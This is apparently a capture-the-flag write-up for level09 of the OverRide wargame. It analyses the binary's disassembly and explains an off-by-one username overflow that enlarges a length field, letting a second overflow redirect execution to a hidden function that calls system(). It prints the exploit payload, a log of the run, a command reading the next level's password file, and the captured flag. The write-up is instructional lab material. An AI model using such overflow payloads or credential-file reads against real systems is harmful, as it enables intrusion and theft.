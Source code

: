 # **Level09**

## **Binary Analysis**

When run, it displays a welcome message and then handles user input through the handle_msg() function.
The program uses a structure to store a username (up to 40 characters) and a message (up to 140 characters). It first prompts the user to enter a username with the set_username() function, and then asks for a message via the set_msg() function.
There's also an unused secret_backdoor() function that could read a command from the user and execute it, but this function is never called in the normal program flow.

**main function:**
```bash
0x0000000000000aa8 <+0>:  push   %rbp
0x0000000000000aac <+4>:  lea    0x15d(%rip),%rdi      # 0xc10
0x0000000000000ab3 <+11>: callq  0x730 <puts@plt>
0x0000000000000ab8 <+16>: callq  0x8c0 <handle_msg>
```
Main simply displays a message and calls handle_msg.

**handle_msg key parts:**
```bash
0x00000000000008d2 <+18>: add    $0x8c,%rax           # Points to username field at offset 140
0x00000000000008ff <+63>: movl   $0x8c,-0xc(%rbp)     # Sets len field to 140
0x0000000000000910 <+80>: callq  0x9cd <set_username>
0x000000000000091f <+95>: callq  0x932 <set_msg>
```
**set_username key part:**
```bash
0x0000000000000a5f <+146>: mov  %cl,0x8c(%rdx,%rax,1) # Writes to username starting at offset 140
0x0000000000000a6a <+157>: cmpl $0x28,-0x4(%rbp)      # Checks if i > 40 (0x28)
```
This shows username is written to offset 140 and loop continues until i > 40.

**set_msg key part:**
```bash
0x00000000000009a9 <+119>: mov  0xb4(%rax),%eax       # Loads len field (at offset 180 = 0xb4)
0x00000000000009c6 <+148>: callq 0x720 <strncpy@plt>   # Copies input using the length
```
Uses the len value at offset 0xb4 (180) to control strncpy.

**secret_backdoor function:**
```bash
0x00000000000008ad <+33>: callq 0x770 <fgets@plt>
0x00000000000008b9 <+45>: callq 0x740 <system@plt>
```
Gets user input and passes it directly to system().
## **Vulnerability**

**Two-Stage Buffer Overflow**

1. First Overflow:
    - Username buffer is 40 bytes
    - Length field is at offset 40
    - Can overflow 1 byte to modify message length
2. Second Overflow:
    - Modified length allows writing beyond message buffer
    - Can overwrite return address with secret_backdoor

## **Exploit**

**Exploit Structure**

```python
# Stage 1: Username overflow
"A" * 40       # Fill username buffer
"\xff"         # Overwrite length byte to maximum
"\n"           # Username input terminator

# Stage 2: Message overflow
"B" * 200      # Padding to reach return address
"\x8c\x48\x55\x55\x55\x55\x00\x00"  # secret_backdoor address
```

**Final Exploit**

```bash
(python -c 'print "A"*40 + "\xff" + "\n" + "B"*200 + "\x8c\x48\x55\x55\x55\x55\x00\x00"'; cat) | ./level09
```

**Exploit Execution**

```bash
level09@OverRide:~$ (python -c 'print "A"*40 + "\xff" + "\n" + "B"*200 + "\x8c\x48\x55\x55\x55\x55\x00\x00"'; cat) | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�
>: Msg @Unix-Dude
>>: >: Msg sent!
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```

**How It Works**

1. **First Stage (Username)**:
    - Fill username buffer with 40 'A's
    - Overflow one byte with \xff to modify message length
    - This allows writing beyond normal message bounds
2. **Second Stage (Message)**:
    - 200 bytes of 'B's as padding
    - Place secret_backdoor address (0x55555555488c)
    - When function returns, it jumps to secret_backdoor
3. **Command Execution**:
    - secret_backdoor function executes
    - We can input shell commands
    - Read the flag file

## **Flag**

```
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE

```
